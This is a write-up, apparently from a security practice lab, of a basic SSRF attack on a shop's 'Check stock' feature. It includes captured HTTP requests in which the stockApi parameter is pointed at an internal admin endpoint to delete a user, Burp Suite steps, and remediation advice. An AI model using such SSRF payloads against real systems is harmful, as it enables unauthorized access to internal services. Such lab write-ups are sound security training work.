

# Lab: Basic SSRF against the local server
**Topic:** Server-Side Request Forgery (SSRF)  
**Difficulty:** Apprentice  
**Link:** [https://portswigger.net](https://portswigger.net)

##  Objective
Access the internal administrative interface located at `http://localhost/admin` via an SSRF vulnerability and delete the target user `carlos`.

##  Enumeration & Analysis
* **Target Parameter:** The product page includes a "Check stock" feature that issues a `POST` request to `/product/stock`.
* **Baseline Behavior:** The application handles stock checks by passing an absolute URL inside a parameter named `stockApi`:
  ```text
  stockApi=http://weliketoshop.net
  ```
* **Vulnerability Mechanism:** The server blindly trusts the URL supplied in `stockApi` and executes the HTTP request from its own internal network context.

##  Traffic Capture Logs

###  Baseline Intercepted Request
This traffic capture demonstrates the original application workflow fetching stock values from an absolute URL:

```http
POST /product/stock HTTP/2
Host: 0a0b003804ae728c83a9967500eb00cb.web-security-academy.net
Cookie: session=n0Gy8IEiKundaHW1fX43gUQajxJBNFY6
Content-Type: application/x-www-form-urlencoded
Content-Length: 107

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

###  Weaponized SSRF Exploit Target
The modified payload forces the server to loop back internally and access administrative endpoints:

```http
POST /product/stock HTTP/2
Host: 0a0b003804ae728c83a9967500eb00cb.web-security-academy.net
Cookie: session=n0Gy8IEiKundaHW1fX43gUQajxJBNFY6
Content-Type: application/x-www-form-urlencoded
Content-Length: 59

stockApi=http://localhost/admin/delete?username=carlos
```


##  Exploitation Step-by-Step
1. Browse to any product page and click the **Check stock** button while monitoring traffic in Burp Suite.
2. Identify the `POST /product/stock` request in your **HTTP history** and send it to **Burp Repeater**.
3. Modify the data inside the `stockApi` parameter to point to the local administrative panel deletion endpoint: `http://localhost/admin/delete?username=carlos`.
4. Transmit the request. The back-end server performs the request locally, bypasses external access control mechanisms, and returns a `200 OK` indicating the deletion action rendered successfully in the HTML response stream.

### Final Weaponized Exploit Request
```http
POST /product/stock HTTP/2
Host: 0a0b003804ae728c83a9967500eb00cb.web-security-academy.net
Cookie: session=n0Gy8IEiKundaHW1fX43gUQajxJBNFY6
Content-Type: application/x-www-form-urlencoded
Content-Length: 59

stockApi=http://localhost/admin/delete?username=carlos
```

##  Proof of Concept (PoC)




##  Remediation
Developers can mitigate this server-side risk using the following defensive strategies:
* **Strict Allowlisting:** Implement a robust allowlist that only permits the server to make outbound connections to explicitly approved hostnames or IP addresses (e.g., `stock.weliketoshop.net`).
* **Input Validation:** Reject any input values containing loopback addresses (`127.0.0.1`, `localhost`) or private network ranges.
* **Authentication on Internal Endpoints:** Ensure administrative endpoints like `/admin` require proper session authentication tokens regardless of whether the incoming request originates from the local host interface.
